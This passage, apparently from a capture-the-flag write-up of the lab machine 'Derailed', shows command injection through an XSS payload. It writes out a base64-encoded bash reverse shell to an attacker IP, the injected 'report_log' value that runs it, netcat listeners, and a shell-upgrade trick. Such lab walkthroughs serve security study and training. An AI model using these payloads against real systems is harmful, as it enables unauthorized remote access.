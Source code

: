     
    
    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 40358
    POST / HTTP/1.1
    Host: 10.10.14.6:9001
    Connection: keep-alive
    Content-Length: 257
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: http://derailed.htb:3000
    Referer: http://derailed.htb:3000/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US
    
    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=93.8 ms
    
    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 93.828/93.828/93.828/0.000 ms
    

#### Shell

To limit special characters in the payload, I’ll create a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) and base64 encode it:

    
    
    oxdf@hacky$ echo "bash -c 'bash -i  >& /dev/tcp/10.10.14.6/443 0>&1'" | base64
    YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK
    

With a little trial and error I found an extra space between `-i` and `>&` resulted in no special characters. I’ll update the XSS payload one more time, this time with `report_log=|echo 'YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK' | base64 -d | bash`. I’ll trigger the XSS again, and when it runs, a shell arrives at port 443:
    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.190 41982
    bash: cannot set terminal process group (806): Inappropriate ioctl for device
    bash: no job control in this shell
    rails@derailed:/var/www/rails-app$
    

I’ll upgrade using the [stty /
script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:

    
    
    rails@derailed:/var/www/rails-app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    rails@derailed:/var/www/rails-app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    rails@derailed:/var/www/rails-app$
    